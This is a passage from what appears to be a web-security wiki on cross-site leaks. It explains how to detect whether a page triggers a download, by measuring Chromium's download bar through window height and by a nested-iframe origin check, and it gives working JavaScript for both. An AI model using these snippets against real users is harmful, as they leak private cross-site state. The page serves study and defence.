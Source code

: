 In Chromium-based browsers, when a file is downloaded, a preview of the download process appears in a bar at the bottom, integrated into the browser window. By monitoring the window height, attackers can detect whether the "download bar" opened:


```javascript
// Read the current height of the window
var screenHeight = window.innerHeight;
// Load the page that may or may not trigger the download
window.open('https://example.org');
// Wait for the tab to load
setTimeout(() => {
    // If the download bar appears, the height of all tabs will be smaller
    if (window.innerHeight < screenHeight) {
      console.log('Download bar detected');
    } else {
      console.log('Download bar not detected');
    }
}, 2000);
```

{{< hint important >}}
This attack is only possible in Chromium-based browsers with automatic downloads enabled. In addition, the attack can't be repeated since the user needs to close the download bar for it to be measurable again.
{{< /hint >}}

### Download Navigation (with iframes)

Another way to test for the [`Content-Disposition: attachment`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Disposition) header is to check if a navigation occurred. If a page load causes a download, it does not trigger a navigation and the window stays within the same origin.

The following snippet can be used to detect whether such a navigation has occurred and therefore detect a download attempt:

```javascript
// Set the destination URL to test for the download attempt
var url = 'https://example.org/';
// Create an outer iframe to measure onload event
var iframe = document.createElement('iframe');
document.body.appendChild(iframe);
// Create an inner iframe to test for the download attempt
iframe.srcdoc = `<iframe src="${url}" ></iframe>`;
iframe.onload = () => {
      try {
          // If a navigation occurs, the iframe will be cross-origin,
          // so accessing "inner.origin" will throw an exception
          iframe.contentWindow.frames[0].origin;
          console.log('Download attempt detected');
      } catch(e) {
          console.log('No download attempt detected');
      }
}
```


[^1]: Protected tweets exposure through the url, [link](https://hackerone.com/reports/491473)
[^2]: Disclose domain of redirect destination taking advantage of CSP, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=313737)
[^3]: Using Content-Security-Policy for Evil, [link](http://homakov.blogspot.com/2014/01/using-content-security-policy-for-evil.html)
[^cache-bypass]: [github.com/xsleaks/wiki/pull/106](https://github.com/xsleaks/wiki/pull/106)